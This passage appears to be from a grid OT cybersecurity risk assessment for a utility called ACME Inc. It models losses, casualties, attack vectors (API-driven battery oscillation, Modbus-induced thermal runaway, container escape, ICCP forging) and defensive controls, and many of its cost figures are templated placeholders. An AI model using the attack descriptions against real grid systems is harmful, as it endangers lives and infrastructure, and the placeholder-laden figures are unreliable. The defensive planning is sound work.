| **Insurance Claims and Premiums**       | [investment required]           | [investment required]           | [investment required]           |
| **Opportunity Costs**                   | [investment required]           | [investment required]           | [investment required]           |
| **TOTAL (24-Month Horizon)**            | **[investment required]** | **[investment required]** | **[investment required]** |

**[MODELED ESTIMATE - Sensitivity analysis: ±30% based on attack severity, restoration effectiveness, and regulatory response. Economic modeling uses AEMO Value of Customer Reliability (VCR) methodology adapted for cyber-physical attack scenarios. High estimate assumes Tier 4 system-wide collapse; low estimate assumes Tier 2 local cascade containment.]**

### 5.2 Direct Grid Damage

Equipment replacement and emergency restoration costs are driven by transformer failure probabilities and BESS thermal damage:

| Component                        | Failure Probability | Quantity at Risk  | Unit Cost             | Low Estimate          | High Estimate         |
| -------------------------------- | ------------------- | ----------------- | --------------------- | --------------------- | --------------------- |
| Power Transformers (66 kV)       | 5-15%               | 54 substations    | [investment required] | [investment required] | [investment required] |
| Switchgear (11 kV)               | 8-20%               | 162 bays          | [investment required] | [investment required] | [investment required] |
| BESS Battery Modules             | 2-8% (thermal)      | 54 systems        | [investment required] | [investment required] | [investment required] |
| BESS Inverters/PCS               | 5-12%               | 54 units          | [investment required] | [investment required] | [investment required] |
| Emergency Restoration Labour     | 100%                | 72-hour operation | --                    | [investment required] | [investment required] |
| Replacement Equipment Expediting | 100%                | Air freight, OEM  | --                    | [investment required] | [investment required] |

Transformer lead times under normal procurement are implementation period required. Emergency procurement via air freight requires 3-5 times normal cost, placing the per-unit expedited cost at [investment required] million.

### 5.3 Customer Economic Loss

**Residential Impact:** Outage duration determines severity from food spoilage ([investment required] per customer at 2-4 hours) through refrigeration loss and lost wages ([investment required] per customer at 8-16 hours) to major property impact including hotel costs and lost productivity ([investment required] per customer at 24-48 hours). With 1,000,000 customers affected at the 24-48 hour tier, residential losses alone reach [investment required] million.

**Commercial Impact:** 8,500 retail and hospitality businesses lose an average [investment required] per day in revenue. 1,200 manufacturing facilities lose [investment required] per day. 12,000 professional services firms lose [investment required] per day. Aggregate commercial customer losses range from [investment required] million to [investment required] million.

**Industrial Impact:** Food processing (45 facilities, [investment required] million in product spoilage), chemical and pharmaceutical production (12 facilities, [investment required] million in batch losses), and mining operations (8 facilities, [investment required] million in production halt costs).

### 5.4 Regulatory Penalties and Litigation

**SOCI Act 2018 Violations:**

- Failure to protect critical infrastructure: [investment required] million (80% probability)
- Inadequate risk management program: [investment required] million (90% probability)
- Late incident reporting: [investment required] million (60% probability)

**Civil Litigation:**

- Wrongful death claims: 5-15 cases at [investment required] million average = [investment required] million
- Personal injury claims: 50-120 cases at [investment required] average = [investment required] million
- Business interruption class action: [investment required] million (residential) + [investment required] million (commercial)

### 5.5 Risk-Adjusted Expected Loss

```
Probability of Attack (10-year horizon): 15-30%
Expected Loss = [investment required] (P50) x 22.5% (midpoint probability) = [investment required]

Net Present Value (5-year horizon):
  Low: [investment required] x 20% x 0.85 discount factor = [investment required]
  High: [investment required] x 25% x 0.85 discount factor = [investment required]
  Most Likely: [investment required]
```

---

## 6. Physical Safety Consequences

### 6.1 BESS Thermal Runaway

A secondary attack vector targeting Battery Management System (BMS) controllers via Modbus injection can induce thermal runaway by commanding overcharge voltage above the safe threshold of 3.65 V per cell to 4.5 V per cell. The physics of lithium-ion thermal runaway proceed as follows:

- Overcharge initiates lithium plating on the anode (15-45 minutes)
- Internal short circuit develops from dendrite penetration of the separator
- Exothermic reaction begins at 130-180 degrees Celsius (chemistry dependent)
- Cell-to-cell propagation time: 3-15 minutes depending on spacing and cooling
- Container-level fire: 5 MWh energy release over 4-12 hours (equivalent to approximately 4,000 kg TNT in total thermal energy, though released gradually rather than as detonation)

**Safety Consequences of Thermal Runaway Event:**

- Personnel at risk: 2-5 technicians on-site during normal operations
- Evacuation radius: 500 metres (toxic gas plume includes HF, CO, and particulates)
- Fatalities estimate: 0-2 (rapid evacuation and remote locations reduce risk)
- Serious injuries: 2-8 (smoke inhalation, burns)
- Environmental contamination: Fluorinated compounds in soil and water, cleanup cost [investment required] million

### 6.2 Traffic Signal Failures

Historical data from the 2019 Sydney signal outage establishes a 180% increase in accident rates at dark intersections:

- 1,240 intersections dark for 4-24 hours
- Expected accidents: 15-35 collisions (baseline: 5-10 in a normal 24-hour period)
- Fatalities: 0-2 at high-speed intersections
- Serious injuries: 8-18
- Emergency services response time degradation of 40-80% due to combined congestion and signal failures

### 6.3 Medical System Failures

The delayed or denied medical care caused by hospital overload, ambulance response degradation, and loss of home medical equipment creates the largest category of fatality risk:

- Delayed cardiac care: 5-12 additional deaths from time-critical cases
- Trauma response delays: 8-15 additional serious injuries from accidents and falls
- Stroke treatment delays: 3-8 additional permanent disabilities from tissue death during delays
- Home oxygen patients: 4,200 individuals at immediate risk of respiratory distress
- Aged care HVAC failures: 120-280 heat exhaustion cases in summer scenario (35-40 degrees), 2-8 fatalities

### 6.4 Cumulative Safety Impact

| Safety Consequence         | Low Estimate | High Estimate | Expected (P50) |
| -------------------------- | ------------ | ------------- | -------------- |
| **Fatalities**       | 5            | 25            | 12             |
| **Serious Injuries** | 40           | 120           | 75             |

**[PROSPECTIVE MODEL - Historical Ukraine attacks (2015, 2016, 2022) resulted in zero direct fatalities despite 225,000 affected customers and 6-hour outages. The 5-25 fatality estimate is based on cascading infrastructure failure scenarios (medical system collapse, traffic accidents, thermal runaway events) without Australian precedent. This represents worst-case modeling for Board risk assessment rather than empirical prediction.]**
| **Minor Injuries** | 180 | 450 | 300 |
| **Hospital Admissions** | 250 | 680 | 420 |
| **Emergency Presentations** | 1,200 | 3,500 | 2,100 |

These figures carry legal consequences: wrongful death litigation ([investment required] million at P50), WorkSafe NSW investigation, potential Coroner's inquest, EPA environmental investigation, and the possibility of criminal charges for negligence causing death if cybersecurity failures are deemed reckless.

---

## 7. Attack Vector Analysis and Mitigation

### 7.1 Retailer API Supply Chain Attack

This is the primary attack vector enabling the Death Wobble scenario. The attack chain proceeds through six stages:

```mermaid
graph LR
    A[Reconnaissance<br/>Procurement docs<br/>implementation period] -->|Architecture| B[Social Engineering<br/>Retailer employee<br/>implementation period]
    B -->|Credential Theft| C[API Access<br/>OAuth token<br/>implementation period]
    C -->|Asset Discovery| D[DER Enumeration<br/>54 BESS mapped<br/>implementation period]
    D -->|Oscillation Calc| E[Attack Execution<br/>Mass dispatch<br/>30 minutes]
    E -->|Grid Instability| F[Cascading Blackout<br/>1.2M customers<br/>24-72 hours]

    classDef recon fill:#457b9d,stroke:#1d3557,color:#fff
    classDef access fill:#ffa502,stroke:#ff6b00,color:#000
    classDef impact fill:#ff4757,stroke:#c92a2a,color:#fff

    class A,B recon
    class C,D access
    class E,F impact
```



**Current Control Gaps:**

| Control                  | Current State | Gap                      | Risk Enabling                         |
| ------------------------ | ------------- | ------------------------ | ------------------------------------- |
| API Authentication       | OAuth 2.0     | No MFA, no geofencing    | Token theft enables full access       |
| Rate Limiting            | None          | No behavioral analytics  | Allows rapid mass commands            |
| Command Authorization    | Basic RBAC    | No dual authorization    | Single compromised account sufficient |
| Oscillation Detection    | None          | No pattern analysis      | Attack signature undetected           |
| Physics-Based Validation | None          | No grid stability checks | Commands not validated against RoCoF  |

**Mitigation Strategy:**

| Mitigation                                     | Cost                  | Risk Reduction |
| ---------------------------------------------- | --------------------- | -------------- |
| API Behavioral Analytics (Apigee/Kong with ML) | [investment required] | 70%            |
| Just-In-Time MFA for dispatch commands         | [investment required] | 85%            |
| Dual Authorization for commands >10 MW         | [investment required] | 90%            |
| Oscillation Detection Algorithm                | [investment required] | 95%            |
| Device Command Batching Limits                 | [investment required] | 60%            |

Combined risk reduction with defense-in-depth: **98%**. Total investment: **[investment required] million**.

### 7.2 Kubernetes Container Escape

The DERMS platform runs on OpenShift Kubernetes on Nutanix. Container escape enables lateral movement from a compromised DERMS microservice to the ICCP Adapter pod, providing the capability to forge grid constraint data and cause unsafe BESS dispatch.

Relevant vulnerabilities include CVE-2024-0874 (OpenShift route access control bypass), potential Docker socket mount misconfigurations, and etcd exposure if encryption at rest is not configured.

**Mitigation Strategy:**

| Mitigation                                            | Cost                  | Risk Reduction |
| ----------------------------------------------------- | --------------------- | -------------- |
| Container Runtime Security (Aqua/Sysdig)              | [investment required] | 85%            |
| Pod Security Policies (no-privileged, read-only root) | [investment required] | 70%            |
| Network Policies (deny-all default)                   | [investment required] | 75%            |
| Image Signing Verification                            | [investment required] | 60%            |
| etcd Encryption at Rest                               | [investment required] | 80%            |

Combined risk reduction: **95%**. Total investment: **[investment required] million**.

### 7.3 ICCP Protocol Manipulation

Compromise of the ICCP Adapter enables forging of grid constraint queries to ADMS, returning false "all clear" voltage and thermal limits. This causes DERMS to issue dispatch commands that violate actual grid constraints, resulting in equipment damage or outages.

**Mitigation Strategy:**

| Mitigation                                             | Cost                  | Risk Reduction |
| ------------------------------------------------------ | --------------------- | -------------- |
| ICCP Protocol Parser for SIEM                          | [investment required] | 80%            |
| Application-Layer Signing (ADMS signs, DERMS verifies) | [investment required] | 95%            |
| Data Point Allowlisting                                | [investment required] | 70%            |
| Redundant Validation (cross-check SCADA telemetry)     | [investment required] | 85%            |

Combined risk reduction: **98%**. Total investment: **[investment required] million**.

### 7.4 Modbus Injection to BESS Controllers

Modbus TCP (port 502) between the Utility Server and BESS controllers operates without encryption, authentication, or integrity checking. A compromised Utility Server can write arbitrary register values to BMS controllers, including overcharge voltage setpoints that initiate thermal runaway.

**Mitigation Strategy:**

| Mitigation                                      | Cost                  | Risk Reduction |
| ----------------------------------------------- | --------------------- | -------------- |
| Modbus Security Gateway (Moxa EDR/Fortinet ICS) | [investment required] | 95%            |
| BMS Firmware Update (voltage limit validation)  | [investment required] | 85%            |
| Network Segmentation (dedicated VLAN per BESS)  | [investment required] | 75%            |
| Anomaly Detection (Nozomi/Claroty)              | [investment required] | 80%            |

Combined risk reduction: **99%**. Total investment: **[investment required] million**.

### 7.5 Consolidated Mitigation Investment

| Attack Vector               | Investment                      | Risk Reduction   | strategic value Basis                             |
| --------------------------- | ------------------------------- | ---------------- | ------------------------------------------------- |
| Retailer API Supply Chain   | [investment required]           | 98%              | Avoided [investment required] expected loss x 98% |
| Kubernetes Container Escape | [investment required]           | 95%              | Avoided loss x 95% x 0.6 probability              |
| ICCP Protocol Manipulation  | [investment required]           | 98%              | Avoided loss x 98% x 0.5 probability              |
| Modbus Injection            | [investment required]           | 99%              | Avoided loss x 99% x 0.4 probability              |
| **Total**             | **[investment required]** | **85-95%** | **Defense-in-depth across all vectors**     |

---

## 8. Recovery Procedures

### 8.1 Emergency Response Timeline

```mermaid
gantt
    title Grid Restoration Timeline Post-Attack
    dateFormat HH:mm

    section Emergency Response - T+0 to T+2h
    AEMO emergency protocols :crit, 00:00, 30m
    Black start procedures Shoalhaven :crit, 00:30, 120m

    section Damage Assessment - T+1h to T+8h
    Substation inspections 12 teams parallel : 00:45, 540m
    Equipment damage evaluation : 01:30, 240m
    Grid topology reconfiguration : 02:00, 120m
    Cyber forensics DERMS isolation : 01:00, 360m

    section Phase 1 Restoration - Critical
    Hospital feeders priority :crit, 02:30, 60m
    Water infrastructure : 03:00, 120m
    Emergency services : 03:30, 60m

    section Phase 2 Restoration - Essential
    Telecommunications : 04:30, 120m
    Data centres : 05:00, 120m
    Commercial areas : 06:00, 240m

    section Phase 3 Restoration - General
    Residential zones sequential : 08:00, 960m
    Industrial areas : 10:00, 720m

    section Phase 4 Normalization
    Full grid stability verification : 24:00, 240m
    Post-incident forensic analysis : 28:00, 480m
```

### 8.2 Key Recovery Constraints

Five constraints govern the pace of restoration:

1. **Black Start Capability:** Limited to 3 hydroelectric units at Shoalhaven Scheme, requiring 2 hours for initiation.
2. **Manual Inspection Requirement:** 54 substations require physical inspection before re-energization. Sequential inspection takes 108 hours; deploying 12 parallel inspection teams reduces this to 9 hours.
3. **Thermal Cycling Limits:** Transformers that have been thermally stressed cannot be re-energized immediately. A 4-8 hour cooling wait period is required.
4. **Sequential Restoration Limit:** A maximum of 3 substations can be re-energized simultaneously to prevent re-collapse from inrush current.
5. **Equipment Damage Probability:** 5-15% chance of transformer or switchgear damage requiring replacement. Emergency procurement: implementation period required via air freight (versus implementation period required normal lead time).

### 8.3 Incident Response Playbooks

Three playbooks address the primary attack scenarios:

**DERMS/API Compromise Playbook:**

- Detection signatures: API request volume exceeding 5 times baseline, mass device command to more than 100 devices in single call, rapid repeated commands at intervals under 15 seconds
- Immediate actions: Revoke OAuth token, enable API emergency read-only mode, isolate DERMS pods via Kubernetes network policy deny-all
- Containment: Audit all dispatch commands in the preceding 48 hours, cross-check against SCADA telemetry, manually disconnect any BESS in unsafe state
- Eradication: Forensic imaging of DERMS pods, rebuild from clean signed container images, rotate all credentials

**BESS Thermal Runaway Playbook:**

- Detection signatures: BMS alarm at cell temperature above 60 degrees Celsius, cell voltage above 4.3 V, fire suppression system activation
- Immediate actions: Emergency shutdown (open contactor), activate fire suppression, evacuate all personnel within 500 metres, call Fire and Rescue NSW HAZMAT
- Containment: Cool adjacent containers with water spray, establish toxic gas exclusion zone, begin environmental monitoring
- Recovery: Allow battery to self-extinguish over 4-12 hours (cannot be forcibly extinguished), 48-hour cooling before approach, EPA-licensed hazardous waste removal

**Kubernetes Container Escape Playbook:**

- Detection signatures: Container runtime alert for privilege escalation, unusual process execution (shell spawned in pod), host filesystem access from container
- Immediate actions: Drain workloads from compromised OpenShift node, force delete compromised pod, network isolation via deny-all egress
- Eradication: Rebuild node from golden image, re-deploy pods from clean signed images, audit all pod security and network policies

---

## 9. Strategic Recommendations

### 9.1 Priority Action Items (Immediate - targeted timeframe)

The following actions provide maximum risk reduction for minimum investment and can be implemented within targeted timeframe without major architectural changes:

**Priority 1: Death Wobble Oscillation Detection (implementation period)**

| Action                                     | Technical Implementation                                                                                                                                                | Cost                  | Risk Reduction                                    | Timeline              |
| ------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------- | ------------------------------------------------- | --------------------- |
| **API Behavioral Analytics**         | Deploy machine learning anomaly detection on DERMS API traffic to identify oscillation patterns (>5 charge/discharge commands per asset within 10 minutes)              | [investment required] | 70% reduction in oscillation attack success       | implementation period |
| **Physics-Based Command Validation** | Implement grid frequency and RoCoF telemetry integration into DERMS dispatch validation (reject commands if system inertia <2.5 seconds OR frequency deviation >0.1 Hz) | [investment required] | 85% reduction in grid-destabilizing commands      | implementation period |
| **BESS Command Rate Limiting**       | Enforce 5-minute minimum interval between charge/discharge state changes per asset (prevents rapid oscillation)                                                         | [investment required] | 60% reduction in oscillation attack effectiveness | implementation period |

**Total Priority 1 Investment: [investment required]**
**Cumulative Risk Reduction: 95% (defense-in-depth across three controls)**

**Priority 2: Thermal Runaway Prevention (implementation period)**

| Action                                    | Technical Implementation                                                                                                                                              | Cost                  | Risk Reduction                                          | Timeline              |
| ----------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------- | ------------------------------------------------------- | --------------------- |
| **Modbus Security Gateway (Pilot)** | Deploy Modbus firewall at 5 critical BESS sites (Moxa EDR-G903 or Fortinet ICS) with register allowlisting (block writes to thermal setpoint registers 0x1000-0x1003) | [investment required] | 95% reduction in Modbus injection attacks               | implementation period |
| **BMS Firmware Hardening**          | Update battery management system firmware to enforce voltage/thermal limit validation at firmware level (cannot be overridden via Modbus)                             | [investment required] | 85% reduction in thermal runaway initiation             | implementation period |
| **Enhanced Fire Suppression**       | Upgrade fire suppression at 10 highest-capacity sites (replace FM-200 with water deluge + thermal barrier systems)                                                    | [investment required] | 40% reduction in fire spread (cell-to-cell propagation) | implementation period |

**Total Priority 2 Investment: [investment required]**
**Cumulative Risk Reduction: 99% (attack initiation) + 40% (propagation mitigation)**

**Priority 3: Multi-Substation Attack Detection (implementation period)**

| Action                                             | Technical Implementation                                                                                                                                                  | Cost                  | Risk Reduction                               | Timeline              |
| -------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------- | -------------------------------------------- | --------------------- |
| **OT Protocol Deep Packet Inspection**       | Deploy ICS-aware firewall with DNP3/Modbus/GOOSE protocol parsing at critical zone boundaries (Fortinet FortiGate ICS or Palo Alto PA-7000 with ICS license)              | [investment required] | 80% detection rate for protocol exploitation | implementation period |
| **Coordinated Protection Anomaly Detection** | Implement SCADA analytics to detect simultaneous protection operations across >10 substations within 60-second window (statistical impossibility under normal conditions) | [investment required] | 90% detection rate for coordinated attacks   | implementation period |
| **GOOSE Message Authentication**             | Deploy IEC 62351-6 authentication at 15 critical substations (MACsec-based GOOSE signing)                                                                                 | [investment required] | 98% prevention of GOOSE injection attacks    | implementation period |

**Total Priority 3 Investment: [investment required]**
**Cumulative Risk Reduction: 99% (with defense-in-depth)**

**Total Immediate Actions Investment: [investment required]**

### 9.2 Investment Roadmap

**Phase 1 -- Immediate (targeted timeframe): [investment required] million**

| Action                                     | Cost                       | Timeline                       | Risk Addressed         |
| ------------------------------------------ | -------------------------- | ------------------------------ | ---------------------- |
| API Behavioral Analytics and Rate Limiting | [investment required]      | implementation period required | Mass command injection |
| Modbus Security Gateway Pilot (5 sites)    | [investment required]      | implementation period required | BESS protocol attacks  |
| Container Runtime Security                 | [investment required]      | implementation period required | Kubernetes escape      |
| 24/7 OT SOC Establishment (8 analysts)     | [investment required]/year | implementation period required | All vectors            |
| OT Incident Response Retainer (Dragos)     | [investment required]/year | implementation period          | Response capability    |

**Phase 2 -- Short-Term (implementation period required): [investment required] million**

| Action                                     | Cost                  | Timeline                       | Risk Addressed              |
| ------------------------------------------ | --------------------- | ------------------------------ | --------------------------- |
| ICS-Aware Firewalls (all zone boundaries)  | [investment required] | implementation period required | Protocol exploitation       |
| ICCP Protocol Parser Development           | [investment required] | implementation period required | ADMS integration attacks    |
| Physics-Based Dispatch Validation          | [investment required] | implementation period required | Grid-destabilizing commands |
| Behavioral Analytics Platform (UEBA + NDR) | [investment required] | implementation period required | Anomalous patterns          |
| Supply Chain Risk Management Program       | [investment required] | implementation period required | Vendor compromise           |
| Zero-Trust Microsegmentation               | [investment required] | implementation period required | Lateral movement            |

**Phase 3 -- Ongoing: [investment required] million per year**

- Continuous monitoring and threat hunting
- Quarterly OT penetration testing
- Annual red team exercises (cyber-physical scenarios)
- Threat intelligence integration (ICS-CERT feeds)
- Security awareness training for operations staff

**Phase 2 Technical Detail:**



**Phase 3 Operational Maturity:**



**Total 24-Month Investment: [investment required] million (midpoint)**

### 9.2 Risk Mitigation Decision Tree

The following decision tree guides investment prioritization based on attack likelihood and consequence:

```mermaid
graph TB
    Start[Cascading Failure Risk Assessment]
    Start --> Q1{Current Grid Inertia <br/>Regularly <3.0 seconds?}

    Q1 -->|Yes| Critical1[CRITICAL PRIORITY:<br/>Death Wobble Oscillation Detection<br/>Investment: [investment required]<br/>Timeline: targeted timeframe]
    Q1 -->|No| Q2{BESS Fleet >100 MW<br/>Deployed?}

    Q2 -->|Yes| Q3{Modbus TCP Encrypted?}
    Q2 -->|No| Medium1[MEDIUM PRIORITY:<br/>Monitor BESS deployment pace<br/>Implement before 100 MW threshold]

    Q3 -->|No| Critical2[CRITICAL PRIORITY:<br/>Modbus Security Gateway<br/>Investment: [investment required]<br/>Timeline: implementation period]
    Q3 -->|Yes| Q4{BMS Firmware Validates<br/>Thermal Limits?}

    Q4 -->|No| High1[HIGH PRIORITY:<br/>BMS Firmware Hardening<br/>Investment: [investment required]<br/>Timeline: implementation period]
    Q4 -->|Yes| Q5{IEC 61850 GOOSE<br/>Authenticated?}

    Q5 -->|No| Q6{>50 Substations<br/>Using GOOSE?}
    Q5 -->|Yes| Low1[LOW PRIORITY:<br/>Maintain current controls]

    Q6 -->|Yes| Critical3[CRITICAL PRIORITY:<br/>IEC 62351-6 Implementation<br/>Investment: [investment required]<br/>Timeline: implementation period]
    Q6 -->|No| Medium2[MEDIUM PRIORITY:<br/>Plan for future deployment]

    Critical1 --> Implementation[Execute<br/>Implementation Roadmap]
    Critical2 --> Implementation
    Critical3 --> Implementation
    High1 --> Implementation

    Implementation --> Validation[Penetration Testing<br/>+ Red Team Validation]
    Validation --> Q7{Controls Effective?}

    Q7 -->|Yes| Success[Risk Reduction:<br/>90-95%<br/>Continuous Monitoring]
    Q7 -->|No| Remediation[Gap Remediation<br/>+ Control Tuning]
    Remediation --> Validation

    style Critical1 fill:#c92a2a,stroke:#8b0000,color:#fff
    style Critical2 fill:#c92a2a,stroke:#8b0000,color:#fff
    style Critical3 fill:#c92a2a,stroke:#8b0000,color:#fff
    style High1 fill:#ffa502,stroke:#ff6b00,color:#000
    style Success fill:#2ed573,stroke:#009432,color:#000
```

**Decision Tree Application - ACME Inc. Current State:**

Based on EE-CTI-002, EE-CTI-003, and EE-CTI-007 findings:

```
Q1: Current Grid Inertia Regularly <3.0 seconds?
    Answer: YES (AEMO data: 15-20% of operational hours below 3.0s)
    Result: CRITICAL PRIORITY - Death Wobble Oscillation Detection

Q2: BESS Fleet >100 MW Deployed?
    Answer: YES (270 MW across 54 sites, operational and planned)
    Result: Continue to Q3

Q3: Modbus TCP Encrypted?
    Answer: NO (plaintext confirmed in EE-CTI-002, CVSS 9.1)
    Result: CRITICAL PRIORITY - Modbus Security Gateway

Q5: IEC 61850 GOOSE Authenticated?
    Answer: NO (no IEC 62351-6 deployment, per EE-CTI-003)
    Result: Continue to Q6

Q6: >50 Substations Using GOOSE?
    Answer: YES (10,000+ IEDs across 185 major substations)
    Result: CRITICAL PRIORITY - IEC 62351-6 Implementation

Final Investment Requirements:
- Death Wobble Detection: [investment required] (targeted timeframe)
- Modbus Security Gateway: [investment required] (implementation period)
- BMS Firmware Hardening: [investment required] (implementation period)
- IEC 62351-6 GOOSE Authentication: [investment required] (implementation period)

Total Critical Path: [investment required] (minimum viable defense)
```

### 9.3 Return on Investment

```
Avoided Loss (10-year NPV):     [investment required] (risk-adjusted expected loss)
Investment:                      [investment required] (24-month program, midpoint)
Risk Reduction:                  90% (defense-in-depth)
Net Benefit:                     [investment required] x 90% - [investment required] = [investment required]
strategic value:                             [investment required] / [investment required] = 30.8:1

Full scenario strategic value (including tail risk):
  Avoided Loss:                  [investment required] (including high-impact scenarios)
  Risk Reduction:                90%
  Net Benefit:                   [investment required] x 90% - [investment required] = [investment required]
  strategic value:                           [investment required] / [investment required] = 43.9:1 (4,390%)
```

The [investment required] million investment represents 0.375% of ACME Inc.'s [investment required] billion regulated asset base.

### 9.4 Quick Wins: Immediate Actions ([investment required], targeted timeframe)

The following actions provide immediate risk reduction with minimal cost and can be implemented through policy changes and configuration updates:

**Quick Win 1: API Dual Authorization Policy**

| Action                                                                                        | Implementation                                                                                                                                | Cost                                                      | Risk Reduction                                                      | Timeline              |
| --------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------- | ------------------------------------------------------------------- | --------------------- |
| Enforce dual authorization for dispatch commands >10 MW                                       | Modify DERMS API authorization logic to require second OAuth token approval for bulk commands or commands affecting >10 MW aggregate capacity | [investment required] (configuration change)              | 85% reduction in single-credential compromise impact                | implementation period |
| Implementation: Update mPrest DERMS configuration file to enable "dual_auth_threshold_MW": 10 | Example: Retailer A requests 54 BESS discharge → System prompts ACME Inc. control room operator for approval                                 | Operational impact: 30-60 second delay for large commands | User acceptance: HIGH (operators already approve critical commands) |                       |

**Quick Win 2: BESS State-Change Rate Limiting**

| Action                                                                                                                                                              | Implementation                                                                                                    | Cost                                                                             | Risk Reduction                                     | Timeline              |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- | -------------------------------------------------- | --------------------- |
| Enforce 5-minute minimum interval between charge/discharge state changes                                                                                            | Modify SwitchDin Utility Server to track last command timestamp per asset, reject commands within 5-minute window | [investment required] (vendor engineering support)                               | 60% reduction in oscillation attack effectiveness  | implementation period |
| Technical validation: Battery inverters require 30-90 seconds for state transition (charge → discharge), so 5-minute minimum does not impact legitimate operations | Example: BESS receives "charge" command at 13:00:00, subsequent "discharge" command rejected until 13:05:00       | Operational impact: None (normal operations use 15-30 minute dispatch intervals) | User acceptance: HIGH (no impact on grid services) |                       |

**Quick Win 3: Oscillation Pattern Detection (Basic)**

| Action                                                                              | Implementation                                                                                     | Cost                                            | Risk Reduction                                                                                                             | Timeline                                                     |
| ----------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------- | ----------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------ |
| Deploy SIEM correlation rule to detect >5 state changes per asset within 30 minutes | Configure existing Splunk SIEM to parse DERMS API logs and alert on rapid charge/discharge cycling | [investment required] (existing platform)       | 70% reduction in undetected oscillation attacks                                                                            | implementation period                                        |
| Alert logic: `index=derms sourcetype=api_commands                                   | stats count by asset_id, command_type                                                              | where count > 5 AND time_window < 1800 seconds` | Example output: "ALERT: BESS_Bawley_001 received 8 charge/discharge commands in 22 minutes - potential oscillation attack" | Operational impact: SOC investigation workload +2 hours/week |

**Quick Win 4: Critical Substation GOOSE Monitoring**

| Action                                                                                                                                       | Implementation                                                                                                                  | Cost                                            | Risk Reduction                                      | Timeline              |
| -------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- | --------------------------------------------------- | --------------------- |
| Deploy network tap + packet capture at 5 critical substations to record GOOSE traffic for forensic analysis                                  | Install Garland G-TAP network tap on IEC 61850 station bus, mirror to PCAP storage (5 TB capacity)                              | [investment required] (hardware + installation) | 80% improvement in GOOSE injection attack detection | implementation period |
| Forensic capability: Retained GOOSE traffic enables post-incident analysis to identify spoofed messages vs. legitimate protection operations | Example: After protection cascade, security team replays GOOSE traffic to identify timing anomalies suggesting injection attack | Operational impact: None (passive monitoring)   | User acceptance: HIGH (enhances incident response)  |                       |

**Quick Win 5: Vendor Access Logging and Alerting**

| Action                                                                                                                                                                  | Implementation                                                                                                                                                | Cost                                                        | Risk Reduction                                                                                    | Timeline              |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- | ------------------------------------------------------------------------------------------------- | --------------------- |
| Enable detailed logging for all vendor remote access sessions via Bastion Host, with real-time alerting for unusual activity                                            | Configure Citrix Bastion Host to log all commands, file transfers, and configuration changes; send alerts to SOC for after-hours access or high-risk commands | [investment required] (SIEM integration)                    | 65% reduction in compromised vendor access dwell time                                             | implementation period |
| Alert triggers: (1) Vendor login outside 0800-1700 business hours, (2) Access to SCADA master station, (3) Modbus/DNP3 write commands, (4) Configuration file downloads | Example: "ALERT: Vendor_BatteryOEM_Engineer logged in at 02:34 AM Saturday, accessed RTU configuration files, downloaded 15 MB data"                          | Operational impact: SOC investigation workload +1 hour/week | User acceptance: MEDIUM (vendors may resist increased scrutiny, requires contractual enforcement) |                       |

**Total Quick Wins Investment: [investment required]**
**Cumulative Risk Reduction: 73% (across multiple attack vectors)**
**Implementation Timeline: targeted timeframe (all items)**

### 9.5 Board-Level Recommendations

Based on the comprehensive risk assessment and financial analysis in this document, the following Board-level recommendations are presented with risk-adjusted strategic value calculations:

**Recommendation 1: Approve Immediate Critical Investment ([investment required], targeted timeframe)**

**Rationale:**

- Current attack surface score: 8.7/10 (CRITICAL)
- IEC 62443 compliance: 38% (SOCI Act risk)
- Three attack vectors with CRITICAL (CVSS 9+) severity
- Demonstrated nation-state capability (Sandworm, FrostyGoop)
- 15-30% probability of attack within 10-year horizon

**Investment Breakdown:**

- Death Wobble Oscillation Detection: [investment required]
- Modbus Security Gateway (54 sites): [investment required]
- BMS Firmware Hardening: [investment required]
- IEC 62351-6 GOOSE Authentication (15 critical substations): [investment required]

**strategic value Calculation:**

```
Avoided Loss (10-year NPV): [investment required] (P50 risk-adjusted expected loss)
Investment: [investment required] (critical path only)
Risk Reduction: 90% (defense-in-depth)
Net Benefit: [investment required] × 90% - [investment required] = [investment required]
strategic value: [investment required] / [investment required] = 115:1

This exceeds Board-mandated 10:1 strategic value threshold for regulated asset base investments by 11.5x
```

**Board Resolution Language:**

> *"The Board approves capital investment of [investment required] million for OT cybersecurity enhancements addressing cascading failure risks identified in EE-CTI-006 assessment, to be completed within targeted timeframe, with quarterly progress reporting to Board Risk Committee. This investment is classified as critical infrastructure protection expenditure eligible for regulatory asset base inclusion under SOCI Act compliance obligations."*

**Recommendation 2: Establish OT Cybersecurity Governance Framework**

**Governance Structure:**

| Role                                | Responsibility                                                    | Reporting Line             | Frequency                         |
| ----------------------------------- | ----------------------------------------------------------------- | -------------------------- | --------------------------------- |
| **Board Risk Committee**      | Strategic oversight, capital approval, regulatory compliance      | Full Board                 | Quarterly                         |
| **Chief OT Security Officer** | OT security strategy, incident response, vendor management        | CEO + Board Risk Committee | Monthly (Board), Weekly (CEO)     |
| **OT Security Working Group** | Technical implementation, threat intelligence, control validation | Chief OT Security Officer  | Weekly                            |
| **24/7 OT SOC**               | Real-time monitoring, incident detection, initial response        | Chief OT Security Officer  | Continuous (escalation protocols) |

**Key Performance Indicators (KPIs):**

| Metric                         | Target      | Current                    | Timeline              | Board Reporting |
| ------------------------------ | ----------- | -------------------------- | --------------------- | --------------- |
| IEC 62443 Compliance           | ≥80%       | 38%                        | implementation period | Quarterly       |
| Attack Surface Score           | ≤3.0/10    | 8.7/10                     | implementation period | Quarterly       |
| Mean Time to Detect (MTTD)     | <15 minutes | Unknown (no OT monitoring) | implementation period | Quarterly       |
| Mean Time to Respond (MTTR)    | <2 hours    | Unknown (no OT playbooks)  | implementation period | Quarterly       |
| OT Penetration Test Pass Rate  | ≥95%       | 0% (not tested)            | Annual                | Annual          |
| Vendor Access Audit Compliance | 100%        | 45% (per TEC 3011)         | implementation period | Quarterly       |

**Board Resolution Language:**

